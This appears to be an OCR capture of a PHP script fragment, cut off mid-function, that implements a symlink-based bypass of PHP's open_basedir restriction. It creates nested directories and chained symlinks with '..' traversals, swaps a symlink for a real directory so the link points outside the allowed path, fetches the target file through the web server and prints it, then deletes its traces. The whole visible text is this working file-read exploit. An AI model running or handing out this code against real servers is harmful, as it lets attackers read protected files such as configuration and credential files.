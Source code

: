 ```php
for ($i -= 1; $i > 0; $i--) { 
    chdir('..');
}
$paths = explode('/', $relat_file);
$j = 0;
for ($i = 0; $paths[$i] == '..'; $i++) { 
    mkdir($name);
    chdir($name);
    $j++;
}
for ($i = 0; $i <= $j; $i++) { 
    chdir('..');
}
$tmp = array_fill(0, $j + 1, $name);
symlink(implode('/', $tmp), 'tmplink');
$tmp = array_fill(0, $j, '..');
symlink('tmplink/' . implode('/', $tmp) . $file, $exp);
unlink('tmplink');
mkdir('tmplink');
delfile($name);
$exp = dirname($_SERVER['SCRIPT_NAME']) . "/{$exp}";
$exp = "http://{$_SERVER['SERVER_NAME']}{$exp}";
echo "\n-----------------content---------------\n\n";
echo file_get_contents($exp);
delfile('tmplink');

function getRelativePath($from, $to) {
  // some compatibility fixes for Windows paths
  $from = rtrim($from, '\/') . '/';
  $from = str_replace('\\', '/', $from);
  $to   = str_replace('\\', '/', $to);

  $from   = explode('/', $from);
  $to     = explode('/', $to);
  $relPath  = $to;

  foreach($from as $depth => $dir) {
    // find first non-matching dir
    if($dir === $to[$depth]) {
      // ignore this directory
      array_shift($relPath);
    } else {
      // get number of remaining dirs to $from
      $remaining = count($from) - $depth;
      if($remaining > 1) {
        // add traversals up to first matching dir
        $padLength = (count($relPath) + $remaining - 1) * -1;
        $relPath = array_pad($relPath, $padLength, '..');
        break;
      } else {
        $relPath[0] = './' . $relPath[0];
      }
    }
  }
  return implode('/', $relPath);
}

function delfile($deldir){
    if (@is_file($deldir)) {
        @chmod($deldir,0777);
        return @unlink($deldir);
    }else if(@is_dir($deldir)){
        if(($mydir = @opendir($deldir)) == NULL) return false;
```